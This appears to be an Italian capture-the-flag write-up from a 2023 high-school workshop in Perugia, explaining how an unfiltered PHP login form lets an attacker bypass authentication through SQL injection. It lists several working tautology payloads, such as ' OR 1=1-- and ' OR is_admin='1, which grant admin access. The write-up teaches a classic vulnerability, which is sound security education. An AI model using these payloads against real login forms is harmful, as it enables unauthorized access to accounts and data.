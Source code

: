 # 4th HighSchools CTF Workshop - Perugia 2023

## [web] Trova le soluzioni 3

Il sito è scritto in PHP ed utilizza un database MySQL per gestire gli utenti e le verifiche.  
Le verifiche non pubblicate possono essere visualizzate soltanto dagli utenti con privilegi di amministratore.

## Vulnerabilità

### SQL Injection

L'SQL Injection è una vulnerabilità che permette di eseguire codice SQL arbitrario all'interno di una query.  
In questo caso specifico l'SQL Injection può essere sfruttata per bypassare il controllo di autenticazione e visualizzare le verifiche non pubblicate.

## Soluzione

Il form di login è vulnerabile ad un attacco di tipo `SQL Injection`.  
Inserendo come username "`'`" verrà creata un'eccezione SQL che, per semplicità, verrà visualizzata a schermo in fase di errore:

<pre>
SELECT * FROM users WHERE password = 'e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855' AND name = '<span style="color: red;">'</span>'
</pre>

Questo avviene perché il parametro `name` non viene filtrato e viene concatenato direttamente alla query SQL.  
Come si può constatare l'username viene inserito direttamente tra i due apici singoli (<code>SELECT \* FROM users WHERE password = 'e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855' AND name = '<span style="color: red;">'</span>'</code>), pertanto inserendo "`'`" si chiuderà il primo apice singolo e si aprirà il secondo (che non viene chiuso), generando un'eccezione SQL.

Per sfruttare questa vulnerabilità è sufficiente injectare una chiusura dell'apice e manipolare la condizione `WHERE` per ottenere il risultato desiderato.  
In questo caso la tabella `users` contiene soltanto un utente, quindi basta inserire una condizione che sia sempre vera (es `1=1` oppure `'ciao'='ciao'`) per ottenere l'accesso.

Inserendo come username "`' OR 'ciao'='ciao`" verrà costruita la seguente query SQL:

<pre>
SELECT * FROM users WHERE password = 'e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855' AND name = '<span style="color: red;">' OR 'ciao'='ciao</span>'
</pre>

Altri esempi validi di injection sono

<pre>
SELECT * FROM users WHERE password = 'e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855' AND name = '<span style="color: red;">' OR 1=1-- Commento :)</span>'
</pre>
<pre>
SELECT * FROM users WHERE password = 'e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855' AND name = '<span style="color: red;">' OR 1=1# Commento :)</span>'
</pre>
<pre>
SELECT * FROM users WHERE password = 'e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855' AND name = '<span style="color: red;">' OR ''='</span>'
</pre>

Con questo esempio si può filtrare invece la tabella per selezionare soltanto gli utenti con privilegi di amministratore, questo sarebbe stato utile nel caso in cui il primo utente non fosse stato un admin:

<pre>
SELECT * FROM users WHERE password = 'e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855' AND name = '<span style="color: red;">' OR is_admin='1</span>'
</pre>

Una volta ottenuto l'accesso si potrà visualizzare la flag cliccando sul link di una delle verifiche non pubblicate presenti nella pagina.
